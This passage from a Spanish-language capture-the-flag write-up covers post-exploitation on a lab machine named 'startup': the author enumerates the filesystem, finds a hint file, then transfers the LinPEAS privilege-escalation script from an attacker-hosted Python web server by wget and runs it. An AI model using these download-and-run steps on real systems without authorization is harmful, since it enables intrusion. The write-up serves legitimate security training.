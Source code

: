 Una vez que la *shell* estuvo estable, se inició la enumeración del sistema desde el directorio raíz (`/`).

Se ejecutó `ls -l /` y se encontró un archivo que no es típico en el directorio raíz: `recipe.txt`.

#### Contenido de `recipe.txt`

Se leyó el archivo `recipe.txt`:

```bash
cat recipe.txt
````
El texto es:

Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it wat [contenido oculto, pero es la pista].

<img width="1133" height="208" alt="enumeramos y obtebemos la receta secreta" src="https://github.com/user-attachments/assets/d72bc815-0d35-493f-8e6e-19603cc6e9d6" />

Pista Clave: El archivo contiene el nombre del ingrediente secreto.

## Paso 7: Enumeración Exhaustiva del Sistema (LinPEAS)

Aunque la pista de la "receta secreta" es prometedora, una enumeración exhaustiva es necesaria para identificar todos los posibles vectores de escalada de privilegios. Para esto, se utilizó la herramienta automatizada **LinPEAS**.

### 7.1 Transferencia de LinPEAS

1.  **Configurar el Servidor:** En la máquina atacante, se inició un servidor web simple (por ejemplo, con Python) en el puerto 8000 para servir el script `linpeas.sh`.

    ```bash
    python3 -m http.server 8000
    ```

2.  **Descarga en el Objetivo:** Desde la *shell* de `www-data` en el objetivo, se utilizó `wget` para descargar el script. Se eligió el directorio `/var/www/html/files/ftp` ya que se sabía que era escribible.

    ```bash
    www-data@startup:/var/www/html/files/ftp$ wget 10.8.24.253:8000/linpeas.sh
    ```
    
<img width="652" height="316" alt="descargo linpeas en la maquibna" src="https://github.com/user-attachments/assets/abae8dd2-5102-4e9a-94ce-7456c9bbe313" />

3.  **Ejecución:** Se otorgaron permisos de ejecución y se ejecutó el script.

    ```bash
    chmod +x linpeas.sh
    ./linpeas.sh
    ```

### 7.2 Análisis de Resultados de LinPEAS

LinPEAS comenzó con su leyenda y luego mostró información de interés.
